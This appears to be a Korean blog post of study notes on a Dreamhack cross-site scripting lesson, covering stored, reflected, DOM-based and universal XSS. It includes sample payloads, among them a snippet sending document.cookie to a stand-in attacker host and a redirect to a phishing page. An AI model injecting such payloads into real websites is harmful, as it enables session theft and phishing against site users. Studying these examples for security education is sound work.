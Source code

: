 ```yaml
---
title: Dreamhack XSS
date: 2022-02-15 15:40:49
tags: Dreamhack
categories: Dreamhack
---
```


## Summary
- Cross Site Scripting : 클라이언트 사이드 취약점 공격자가 웹 리소스에 악성 스크립트를 삽입해 이용자의 브라우저에서 해당 스크립트를 실행하는 취약점
- Stored XSS : 악성 스크립트가 서버 내에 존재 이용자가 저장된 악성 스크립트를 조회할 때 발생
- Reflected XSS : 악성 스크립트가 이용자 요청 내에 존재 이용자가 악성 스크립트가 포함된 요청을 보낸 후 응답을 출력할 때 발생

클라이언트 사이드 취약점은 웹 페이지의 이용자를 대상으로 공격할 수 있는 취약점입니다
해당 종류의 취약점을 통해 이용자를 식별하기 위한 세션 및 쿠키 정보를 탈취하고 해당 계정으로 임의의 기능을 수행할 수 있습니다

## XSS
![SQL](https://kr.object.ncloudstorage.com/dreamhack-content/page/ec908887275888814f205b00c517a092ff1de4bddc70e424438dee8f1c11c33d.png)

XSS 는 클라이언트 사이드 취약점 중 하나로 공격자가 웹 리소스에 악성 스크립트를 삽입해 이용자의 브라우저에서 해당 스크립트를 실행할 수 있습니다

공격자는 해당 취약점을 통해 특정 계정의 세션 정보를 탈취하고 해당 계정으로 임의의 기능을 수행할 수 있습니다

예를들어 드림핵 페이지에서 XSS 취약점이 존재하면 https://dreamhack.io 내에서 오리진 권한으로 악성 스크립트를 삽입합니다

이후에 이용자가 악성 스크립트가 포함된 페이지를 방문하면 공격자가 임의로 삽입한 스크립트가 실행되어 쿠키 및 세션이 탈취될 수 있습니다

해당 취약점은 SOP 보안 정책이 등장하면서 서로 다른 오리진에서는 정보를 읽는 행위가 이전에 비해 힘들어졌습니다
그러나 이를 우회하는 다양한 기술이 소개되면서 XSS 공격은 지속되고 있습니다

## XSS 발생 예시와 종류
XSS 공격은 이용자가 삽입한 내용을 출력하는 기능에서 발생합니다
이러한 기능의 예로는 로그인 시 출력되는 안녕하세요 OO 회원님 과 같은 문구 또는 게시글과 댓글이 있습니다

클라이언트는 HTTP 형식으로 웹 서버에 리소스를 요청하고 서버로부터 받은 응답 즉 HTML CSS JS 등의 웹 리소스를 시각화하여 이용자에게 보여줍니다

이때 HTML CSS JS 와 같은 코드가 포함된 게시물을 조회할 경우 이용자는 변조된 페이지를 보거나 스크립트가 실행될 수 있습니다

이는 오른쪽 모듈에 `<script>` 태그를 삽입하여 실습해 볼 수 있습니다

XSS 는 발생 형태에 따라서 다양한 종류로 구분되는데 아래에서 XSS 종류와 악성 스크립트가 삽입되는 위치를 확인할 수 있습니다

종류 : Stored XSS
설명 : XSS 에 사용되는 악성 스크립트가 서버에 저장되고 서버의 응답에 담겨오는 XSS

종류 : Reflected XSS
설명 : XSS 에 사용되는 악성 스크립트가 URL 에 삽입되고 서버의 응답에 담겨오는 XSS

종류 : DOM-based XSS
설명 : XSS 에 사용되는 악성 스크립트가 URL Fragment 에 삽입되는 XSS

Fragment 는 서버 요청 / 응답에 포함되지 않습니다

종류 : Universal XSS
설명 : 클라이언트의 브라우저 혹은 브라우저의 플러그인에서 발생하는 취약점으로 SOP 정책을 우회하는 XSS

```
<script>alert(1)</script>
```

```html
<div>
    <h3 class="title"><script>alert(1)</script></h3>
    <p class="content"><script>alert(1)</script></p>
</div>
```

## XSS 스크립트의 예시
자바스크립트는 웹 문서의 동작을 정의합니다
이는 이용자가 버튼 클릭 시에 어떤 이벤트를 발생시키질지와 데이터 입력 시 해당 데이터를 전송하는 이벤트를 구현할 수 있습니다

이러한 기능 외에도 이용자와의 상호 작용 없이 이용자의 권한으로 정보를 조회하거나 변경하는 등의 행위가 가능합니다

이러한 행위가 가능한 이유는 이용자를 식별하기 위한 세션 및 쿠키가 브라우저에 저장되어 있기 때문입니다

따라서 공격자는 자바스크립트를 통해 이용자에게 보여지는 페이지를 조작하거나 브라우저의 위치를 임의의 주소로 변경할 수 있습니다

자바스크립트는 다양한 동작을 정의할 수 있기 때문에 XSS 공격에 주로 사용됩니다
자바스크립트를 실행하기 위한 태그로는 `<script>` 가 있습니다

Figure 1 쿠키 및 세션 탈취 공격 코드
```javascript
<script>
// "hello" 문자열 alert 실행.
alert("hello");
// 현재 페이지의 쿠키(return type: string)
document.cookie; 
// 현재 페이지의 쿠키를 인자로 가진 alert 실행.
alert(document.cookie);
// 쿠키 생성(key: name, value: test)
document.cookie = "name=test;";
// new Image() 는 이미지를 생성하는 함수이며, src는 이미지의 주소를 지정. 공격자 주소는 http://hacker.dreamhack.io
// "http://hacker.dreamhack.io/?cookie=현재페이지의쿠키" 주소를 요청하기 때문에 공격자 주소로 현재 페이지의 쿠키 요청함
new Image().src = "http://hacker.dreamhack.io/?cookie=" + document.cookie;
</script>
```

Figure 2 페이지 변조 공격 코드
```javascript
<script>
// 이용자의 페이지 정보에 접근.
document;
// 이용자의 페이지에 데이터를 삽입.
document.write("Hacked By DreamHack !");
</script>
```

Figure 3 위치 이동 공격 코드
```javascript
<script>
// 이용자의 위치를 변경.
// 피싱 공격 등으로 사용됨.
location.href = "http://hacker.dreamhack.io/phishing"; 
// 새 창 열기
window.open("http://hacker.dreamhack.io/")
</script>
```

## Stored XSS
Stored XSS 는 서버의 데이터베이스 또는 파일 등의 형태로 저장된 악성 스크립트를 조회할 때 발생하는 XSS 입니다

게시물과 댓글에 악성 스크립트를 포함해 업로드하는 방식이 있습니다

게시물은 불특정 다수에게 보여지기 때문에 해당 기능에서 XSS 취약점이 존재할 경우 높은 파급력을 가집니다

오른쪽은 게시물의 내용을 그대로 출력하는 모듈입니다
`<script>` 태그 또는 HTML 태그를 삽입하고 반한되는 HTTP 코드를 확인함으로써 Stored XSS 의 발생 형태를 확인해 볼 수 있습니다

## Reflected XSS
Reflected XSS 는 서버가 악성 스크립트가 담긴 요청을 출력할 때 발생합니다

게시판 서비스에서 작성된 게시물을 조회하기 위한 검색창에서 스크립트를 포함해 검색하는 방식이 있습니다

이용자가 게시물을 검색하면 서버에서는 검색 결과를 이용자에게 반환합니다

일부 서비스에서는 검색 결과를 응답에 포함하는데 검색 문자열에 악성 스크립트가 포함되어 있다면 Reflected XSS 가 발생할 수 있습니다

Reflected XSS 는 Stored XSS 와는 다르게 URL 과 같은 이용자의 요청에 의해 발생합니다

따라서 공격을 위해서는 타 이용자에게 악성 스크립트가 포함된 링크에 접속하도록 유도해야합니다

이용자에게 링크를 직접 전달하는 방법은 악성 스크립트 포함여부를 이용자가 눈치챌 수 있기 때문에 주로 Click Jacking 또는 Open Redirect 등 다른 취약점과 연계하여 사용합니다

오른쪽 예제에서는 게시판에서 게시물을 조회하는 기능입니다
`<script>` 태그 또는 HTML 태그를 검색창에 삽입하고 반환되는 HTML 코드를 확인함으로써 Reflected XSS 발생 형태를 확인해볼 수 있습니다

## XSS Quiz
> 1. B
2. B
3. A

* * *

## Reference
Reference : https://dreamhack.io